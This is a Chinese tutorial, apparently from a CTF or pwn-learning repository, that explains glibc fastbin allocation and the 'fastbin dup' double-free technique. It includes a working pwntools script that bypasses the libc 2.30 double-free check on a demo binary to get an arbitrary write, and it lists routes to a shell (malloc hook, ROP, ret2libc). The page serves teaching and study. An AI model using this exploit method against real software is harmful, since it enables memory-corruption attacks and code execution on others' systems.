



# fastbin dup

本文介绍一种叫**fastbin dup**的 heap 溢出利用技巧

本质上这是一种double free漏洞，通过double free改写数据链表指针，达到任意写的目的。

首先，我们先了解一下fastbin内存的管理机制：

### fastbin机制

众所周知，Linux系统下，调用`malloc`函数，libc库会动态地分配内存。

> 所谓“动态”， 就是指malloc的大小编译时未知，运行时才能知道，比如等待用户输入。这样，一个不可避免的问题是：大小不一的内存块，如何高效利用？为达到高效，要尽可能保持内存连片，要尽可能避免出现新调用的`malloc`在旧内存块里找不到合适大小的，或者即使能找到，但太大，又要分割，导致进一步的碎片化。
>
> 工程经验上来说，小块的内存申请的频率比较高，且造成碎片化的可能性很高，所以要引入链表的数据结构进行管理。

对于libc来说，小内存块(0x20 - 0xb0)都属于fastbin的范畴。下面以 [fastbin_demo](../../fastbin_dup/fastbin_demo) 为例，阐述fastbin大小的内存申请和释放的过程：

在gdb中加载 [fastbin_demo](../../fastbin_dup/fastbin_demo) ，在main函数打断点，逐行运行程序到下图位置：


这时，已经运行了三行malloc代码，用命令`vis`查看当前heap的状态：


根据导论， 由上图可知总共有三个malloc_chunk，大小都是0x20。（这是64位系统`malloc`分配的最小大小，即使`malloc(0)`也会分配0x20）

用命令`fastbin`查看当前fastbin的状态：


这个各个大小的fastbin都是空的（因为已经申请的还没释放）

然后，我们在执行下面的`free(a);`:



这时，再查看`vis`和`fastbin`


可见，heap无明显变化，0x20大小的fastbin指向了原来a指向的内存块（因为执行了`free(a)`）

接下来，再执行`free(b)`, 同样查看`vis`和`fastbin`:


这时heap的0x405030的位置写入了0x0000000000405000， （这恰恰是上一个chunk的位置）而0x20大小的fastbin则出现了链表表示。

查看源码，可知各个大小的fastbin其实就是释放出来的内存，他们之间通过单向链表的形式链接起来，每次释放一个这样大小的内存块，其地址都会被加入到这个链表里，所以就管理来说，只要我知道了这个单向链表的头，我就能找到这个链表的每一个内存块，不管你在哪个内存地址。

因此，系统只需记录头的位置即可，每次加入新块，系统更新该块的位置（作为头），同时在该块里写入之前的头（维持链表）

而这个头其实就是储存在main_arena里：


我们再运行一行代码：


内存变化符合之前描述。

这时，如果我们再需要一块0x20大小的内存块，比如再malloc一次：


libc管理算法会优先从fastbin链表中查找对应大小的链表，如果非空，直接pop第一个出来(LIFO模式)，剩下的块再保持链表。从而无需再申请新的内存块，避免因内存里遍布小内存块，而导致的内存碎片化问题。

以上就是fastbin的运行机制，简单来说可以归结为：当一块小内存块要被释放时，其地址会被写入到arena里，然后原来arena上的那个地址会被写入到这块内存的fd位置，（作为单向链表的指针）当系统需要一块小内存，而对应的单向链表也是非空的时候，arena的那个地址会被返回，然后根据这个地址指向的内存块，找到块内存在这个链表里的下一块，把下一块的地址写到arena上（就是去除单向链表第一个元素的操作）


由上可知，如果我对同一块内存重复释放，每次释放，底层的操作都会照做一遍，这样会打乱它原有对于单向链表的假设，引入安全漏洞。

### double free

**double free**也就是对某个内存块`free`两次。我们先依据fastbin机制，抽象分析一下这种操作，内存将会是一个怎么样的状态：

接上图，如果我们对黄色的malloc_chunk再free一遍，依据fastbin机制，这时内存变化应该如下图所示：



可见，同一块内存被free两次后，fastbin的单向链表会变成一个环状， 且有内存泄露。如果记下来又有malloc，且malloc需要的malloc_chunk大小恰好有是这个fastbin的链表所代表的大小。这时，内存的变化如下：



这时，由于malloc之后，我有了黄色内存块的控制，可以读写，但是由于之前环状结构的影响，使得libc依旧认为黄色内存块是fastbin的单向链表的节点，libc依旧相信这个节点里的指针只要非空，都是指向下一个节点。换言之，我可以控制黄色内存块后的元素在任意位置（比如图中的红色内存块），然后多malloc几次，顺着这个指向，终可以malloc到那块内存上，进而我有其读写的权限。

### 任意写

下面以 [fastbin_dup](../../fastbin_dup/fastbin_dup) 为例，double free技巧的应用：


该程序会泄露`puts`函数运行时地址，然后要求输入用户名，最后就是四个功能的循环。我们的目标是：改写target的值，表明我们有改写该程序运行时数据的能力。

程序的基本安全措施如下：


按照前面描述的double free的技巧，我们采用以下操作：malloc一次，free两次


程序终止，似乎已经察觉到了double free的问题， 我们用gdb 调试，查看调用栈：


可见其确实有一个防止double free的安全检测，我们按照提示，分析源码，看具体阻隔原因: 

首先，找到对应版本的libc源码（这里是2.30），找到对应代码位置：


可见其确实有防止double free的安全检测，但是这个安全检测的原理是，对比需要释放malloc_chunk的地址，和当前arena上记录的地址，如果一致（说明这是一个double free）则报错，终止运行。

前面知道， arena记录的地址其实就是指向空闲malloc_chunk单向链表的首个节点，当重复释放这个节点才会触发这个安全检测。一个很自然的想法是，如果我不是重复释放首个节点呢？是不是就可以绕过这个安全屏障了？下面测试一下这个想法：


为方便查看内存状态，这里是在gdb下调试运行，先malloc两次，申请两个内存块（A和B），然后依次把它们free掉，这时fastbin里的0x20单向链表长度应该是2，如下图：


注意这时链表的顺序应该是BA（先free的是A）如果我这时再free B， 明显会触发安全检测，但如果free A呢？


可见，我们成功绕过了安全检测，且这时的fastbin链表出现了前面描述的环状结构：


既然double free通过了，接下来应该就是分析malloc后，内存如何变化。

留意上图中的heap内存， 如果这时malloc一次，我可以获取0x405000指向的malloc_chunk的控制权，可以改写0x405010 -- 0x405028这里面的内存（这里不考虑heap溢出的情况, 其实在libc 2.30也没有这个问题），且这时fastbin的0x20头变成0x405020, 但是环状结构的原因，头的下一个节点又指向了0x405000这块内存节点。而我可以控制这块内存，写入不同的东西，让libc觉得，这个节点后还有节点，具体指向哪里由我写入的东西决定。a.k.a. 这是一个任意写。


回到最初的目标：改写target。

首先，这个target是被裹在一个叫user的结构体里。user里还有另外一个叫username的，程序运行最早输入的东西会放在这里。


如上图，username可以写入，且在target前面，一个很自然的想法是，如果有溢出，改写target就很容易了，可惜没有。

可以使用前面的double free技巧，如果我控制那个单向链表指向user这个结构体。根据fastbin机制，几次malloc后必然会获得这个结构体的控制，进而可以写入东西，改写target。

下面用pwntools测试这个方案：

```python
 #!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("fastbin_dup")
libc = elf.libc
index = 0

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(size, data):
    global index
    io.send("1")
    io.sendafter("malloc size: ", f"{size}")
    io.sendafter("malloc data: ", data)
    io.recvuntil("your option is: ")
    index += 1
    return index - 1 

def free(i):
    io.send("2")
    io.sendafter("index: ", str(i))
    io.recvuntil("your option is: ")

io = start()
io.recvuntil("puts @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

io.recvuntil("Enter your name: ",)
# io.send('jc')
io.send(p64(0x00)+p64(0x21))

io.recvuntil("your option is: ")
io.timeout = 0.1

chunk_a = malloc(1, 'aaaa')
chunk_b = malloc(1, 'bbbb')

free(chunk_a)
free(chunk_b)
free(chunk_a)

chunk_c = malloc(1, p64(elf.sym.user))
malloc(1, 'a')
malloc(1, 'a')
malloc(1, 'hello')
io.interactive()
```

经测试，target确实被改成了hello


需要注意的一点是：诱导fastbin的0x20单向链表指向user结构体时，需要把这个结构体打扮成一个malloc_chunk, 大小为0x20， 否则无法通过另外一个和chunk大小相关的检测。而这种打扮可以通过输入username来实现。下图为不打扮时遭遇的终止的call stack：


### Get shell

达到任意写，get shell 就不难了，这里提供三个思路：

1. 通过任意写注入shellcode， malloc hook 触发
2. 找rop gadget，同样malloc hook 触发。
3. ret2libc 调用execve

